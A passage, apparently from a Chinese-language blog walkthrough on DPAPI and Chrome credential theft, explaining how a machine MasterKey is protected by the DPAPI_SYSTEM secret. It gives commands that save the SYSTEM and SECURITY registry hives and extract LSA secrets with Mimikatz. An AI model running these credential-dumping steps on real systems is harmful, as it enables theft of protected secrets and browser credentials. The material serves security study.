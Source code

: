 ![image-20250929195549876](/assets/posts/2025-09-30-a-journey-into-dpapi-and-chrome-theft/image-20250929195549876.png)

从返回的结果中可以看到，该 Data BLOB 受到 GUID 为 {bc01a1a5-999c-4652-bc65-9e3c79ebcce5} 的机器/系统 MasterKey 保护，接下来需要解密这个机器/系统 MasterKey。

（3）由于机器/系统级别的 MasterKey 密钥基于 DPAPI_SYSTEM 密钥进行加密，而 DPAPI_SYSTEM 存放于 LSA 机密或 `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets\DPAPI_SYSTEM` 注册表中。因此最近简单的方法通过转储注册表来获取 DPAPI_SYSTEM 密钥。

```powershell
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SECURITY SECURITY
```

将转储的 SYSTEM 和 SECURITY 文件拷贝到本地，通过 Mimikatz 进行解析得到 DPAPI_SYSTEM 值。

```powershell
lsadump::secrets /system:SYSTEM /security:SECURITY
```
